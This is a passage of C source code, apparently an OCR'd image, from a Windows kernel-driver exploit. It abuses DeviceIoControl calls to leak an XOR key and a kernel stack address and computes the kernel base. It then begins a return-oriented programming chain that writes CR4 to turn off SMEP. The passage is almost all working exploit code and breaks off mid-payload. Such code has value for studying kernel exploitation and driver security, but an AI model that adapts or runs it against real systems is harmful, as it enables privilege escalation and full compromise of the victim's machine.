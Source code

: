```c
        return 1;
    }

    printf("[!] Success open device\n");

    uintptr_t inputbuf1 = 0x8181818181818181;
    size_t KEY = 0x0;
    char outputbuf1[0x8] = { 0 };
    
    DWORD bytesReturned = 0;

    BOOL result1 = DeviceIoControl(
        hDevice,
        DeVioctlCode,
        &inputbuf1,
        0x8,
        outputbuf1,
        0x8,
        &bytesReturned,
        NULL
    );

    if (result1) {
        printf("[*] IOCTL command sent successfully\n");
        printf("[!] LeakData: 0x%llx\n",inputbuf1);
        KEY = 0x8181818181818181 ^ inputbuf1;
        printf("[!] LeakKey: 0x%llx\n",KEY);

    } else {
        printf("Failed to send IOCTL command. Error: %ld\n", GetLastError());
    }

    char stack_value[600] = {0x81,0x81,0x81,0x81,0x81,0x81,0x81,0x81};
    char outputbuf2[600] = { 0 };

    BOOL result2 = DeviceIoControl(
        hDevice,
        DeVioctlCode,
        stack_value,
        0x8,
        outputbuf2,
        600,
        &bytesReturned,
        NULL
    );

    uintptr_t* STACK_VAL = (uintptr_t*)stack_value;
    uintptr_t leak_kernel = STACK_VAL[33]; // Stack start + 0x108
    uintptr_t kernel_base = leak_kernel - 0xb7b3c9; 
    printf("[!] Leak Kernel: 0x%llx\n", leak_kernel);
    printf("[!] Kernel Base: 0x%llx\n", kernel_base);

    uintptr_t payload[75];


    for(int i=0; i < 37; i++){
        payload[i] = ADDR(STACK_VAL[i]);
    }

    payload[37] = ADDR(kernel_base + 0x7a7baf); //0x1407a7baf: pop rcx ; ret ;
    payload[38] = ADDR(0x50ef0);
    payload[39] = ADDR(kernel_base + 0x47f027); // 0x14047f027: mov cr4, rcx ; ret ;

```
